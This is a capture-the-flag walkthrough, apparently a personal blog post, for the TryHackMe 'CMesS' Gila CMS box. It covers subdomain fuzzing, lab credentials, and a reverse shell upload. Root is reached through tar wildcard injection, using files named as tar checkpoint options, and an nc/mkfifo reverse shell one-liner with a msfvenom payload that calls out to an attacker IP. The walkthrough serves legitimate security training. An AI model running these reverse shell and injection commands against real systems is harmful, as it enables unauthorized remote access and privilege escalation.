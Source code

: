 ```yaml
---
layout: post
title: CMesS
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/cmess
Description: Can you root this Gila CMS box?
tags: security, cmd, gila, tar, dns, wfuzz
---
```


# Notes

Nmap scan only shows 2 results ssh and port 80. Checking the site we find a gila cms but spending an hour poking around doesn't lead to anything. Gobuster results dont find anything.

# wfuzz

- `wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-
top1million-20000.txt --hc 400,404,403 -H "Host: FUZZ.cmess.thm" -u 
http://cmess.thm -t 100 -hw 290`

getting waaaay to many responses so we can use --hw

we find dev.cmess.thm lets add it to the /etc/hosts and enumerate

- `andre@cmess.thm:KPFTN_f2yxe%`

now that we have creds we can login and upload revshell to /tmp and edit the htaccess to allow and after setting up a listener we have a www-data shell

# privesc

crontab

*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *

so anything we put into the /home/mandre/backup dir will be backed up to tmp every 2 mins.

checking linpeas can find `-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak`

su to anre or ssh in `andre:UQfsdCB7aAP6`

# wildcard esc

1. create payload `msfvenom -p cmd/unix/reverse_netcat lhost 10.2.3.64 lport=6679 R`
2. copy and paste the payload 
3. `echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh`
4. `echo "" > "--checkpoint-action=exec=sh shell.sh"`
5. `echo "" > --checkpoint=1`

have listener setup and wait for response and collect root flag!